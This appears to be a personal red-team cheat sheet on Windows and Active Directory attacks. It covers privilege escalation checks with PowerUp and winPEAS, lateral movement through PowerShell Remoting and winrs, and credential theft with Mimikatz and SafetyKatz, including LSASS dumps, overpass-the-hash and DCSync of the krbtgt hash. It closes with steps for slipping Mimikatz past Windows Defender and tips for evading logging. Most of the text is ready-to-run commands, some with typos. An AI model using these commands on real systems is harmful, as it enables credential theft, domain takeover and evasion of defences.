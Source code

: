 
There are various ways of locally escalating privileges on Windows box:

- Missing Patches
- Automated deployment and AutoLogon passwords in clear text
- AlwaysInstallElevated
- Misconfigured and more
- DLL Hijacking and more
- NTLM Relaying 


#### Services issues using PowerUp

Get services with unquoted paths and a space in their name

~~~
Get-ServiceUnquoted -verbose
~~~


Get services where the current user can write to this binary path or change arguments to the binary 

~~~
Get-ModifiableService -verbose
~~~

Refrence:
 
`https://medium.com/r3d-buck3t/privilege-escalation-with-insecure-windows-service-permissions-5d97312db107`

Get the service whose configuration current user can modify

~~~
Get-ModifiableService -verbose
~~~

To find the pathname of the service running

~~~
Get-WmiObject -Class win32_service | select pathname
~~~

PowerUp

~~~
Invoke-AllChecks
~~~

Privesc

~~~
Invoke-PeivEsc
~~~

PEASS-ng

~~~
winPEAS.exe
~~~


##   Lateral Movement - Powershell Remoting

- Think of PowerShell Remoting (PSRemoting) as psexec on steroids but much more silent and super fast!
- PSRemoting uses Windows Remote Management (WinRM) which is Microsoft’s implementation of WS-Management.
- Enabled by default on Server 2012 onwards with a firewall exception.
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS).
- It is the recommended way to manage Windows Core servers.
- You may need to enable remoting (Enable-PSRemoting) on a Desktop Windows machine, Admin privs are required to do that.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.

   1. One to one
   2. PSSession
       - Interactive
       - Runs in a mew process
       - Is Stateful
   3. Useful cmdlets
      - New-PSSession
      - Enter-PSSession


Open a powershell window with admin privilege

~~~
Enable-PSRemoting
~~~

 To get the interactive shell
  
~~~
Enter-PSSseion -ComputerName dcorp-adminstry
~~~

Use below to execute commands or scriptblocks

~~~
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content "<list_of servers>")
~~~

Use below to execute locally loaded function on the remote machines:

~~~
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
~~~

In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way

~~~
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
~~~

**In below, a function call within the script is used**:

~~~
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
~~~


Use below to execute Stateful commands using Invoke-Command:

~~~
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
~~~


We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts):

~~~
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
~~~

## Invoke-Mimikatz

Frist command for know peivilege

~~~
privilege::debug
~~~

ensure that the output is "Privilege '20' ok"


Dump the logon passwords

~~~
sekurlsa:logonpasswords
~~~

Local Security Authority Subsystem Service (LSASS)

 dump the content from the sam database
  
~~~
lsadump::sam
~~~


dump the hashes with patch 

~~~
lsadump::lsa /patch
~~~


Dump credentials on  a local machine

~~~
Invoke-Mimikatz -command ' "sekurlsa::ekeys" '
~~~

Using safetyKatz (Minidump of lsass and PELoader to run Mimikatz)

~~~
safetykatz.exe "sekurlsa::ekeys"
~~~

### Over Pass The Hash

Over Pass the hash (OPTH) generate tokens from hashes or keys.


~~~
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"' 
~~~

~~~
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
~~~

The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

### DCSync

Domain Admins privileges are required to run DCSync

To extract credentials from the DC without code execution on it, we can use DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:

~~~
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
~~~

~~~
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
~~~

Refrence:https://freedium.cfd/https://pswalia2u.medium.com/active-directory-attack-paths-with-exploitation-will-be-updated-as-i-learn-more-b23b5cfdae10

### Offensive .NET

####  Tradecraft - AV bypass

For that, we can use techniques like Obfuscation, String Manipulation etc

DefenderCheck

`https://github.com/matterpreter/DefenderCheck`

To identify code and strings from a binary that Windows Defender may flag.


Let’s check SharpKatz.exe for signatures using DefenderCheck

~~~
DefenderCheck.exe <Path to Sharpkatz binary>
~~~

- Open the project in Visual Studio.
- Press **CTRL + H**
- Find and replace the string “Credentials” with “Credents” you can use any other string as an replacement. (Make sure that string is not present in the code)
- Select the scope as **Entire Solution**.
- Press **Replace All** button.
- Build and recheck the binary with _DefenderCheck_.
- Repeat above steps if still there is detection


Run the Out-CompressedDll.ps1 PowerShell script on Mimikatz binary and save the output to a file

Out-CompressedDll.ps1

`https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1`

~~~
Out-CompressedDll <Path to mimikatz.exe> > 	outputfilename.txt
~~~

- Copy the value of the variable **$EncodedCompressedFile** from the output file above and replace the value of **compressedMimikatzString** variable in the **Constants.cs** file of SafetyKatz.
    
- Copy the byte size from the output file and replace it in **Program.cs** file on the line 111 & 116.
- Build and recheck the binary with _DefenderCheck_

![[Pasted image 20241121223521.png]]

- Download the latest release of “mimikatz_trunk.zip” file.
- Convert the file to base64 value
Modify the **Program.cs** file.

Added a new variable that contains the base64 value of **mimikatz_trunk.zip** file. – Comment the code that downloads or accepts the mimikatz file as an argument. – Convert the base64 string to bytes and pass it to **zipStream** variable






